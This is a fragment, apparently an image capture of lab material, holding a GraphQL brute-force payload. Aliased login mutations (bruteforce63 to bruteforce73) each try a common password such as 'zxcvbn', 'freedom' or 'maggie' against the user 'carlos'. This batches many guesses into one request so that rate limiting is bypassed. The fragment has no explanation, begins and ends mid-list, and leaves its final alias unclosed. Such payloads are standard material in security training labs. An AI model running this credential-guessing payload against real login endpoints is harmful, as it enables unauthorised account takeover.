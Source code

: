 ```bash
bruteforce63:login(input:{password: "zxcvbn", username: "carlos"}) {
        token
        success
    }


bruteforce64:login(input:{password: "555555", username: "carlos"}) {
        token
        success
    }


bruteforce65:login(input:{password: "11111111", username: "carlos"}) {
        token
        success
    }


bruteforce66:login(input:{password: "131313", username: "carlos"}) {
        token
        success
    }


bruteforce67:login(input:{password: "freedom", username: "carlos"}) {
        token
        success
    }


bruteforce68:login(input:{password: "777777", username: "carlos"}) {
        token
        success
    }


bruteforce69:login(input:{password: "pass", username: "carlos"}) {
        token
        success
    }


bruteforce70:login(input:{password: "maggie", username: "carlos"}) {
        token
        success
    }


bruteforce71:login(input:{password: "159753", username: "carlos"}) {
        token
        success
    }


bruteforce72:login(input:{password: "aaaaaa", username: "carlos"}) {
        token
        success
    }


bruteforce73:login(input:{password: "ginger", username: "carlos"}) {
        token
        success
```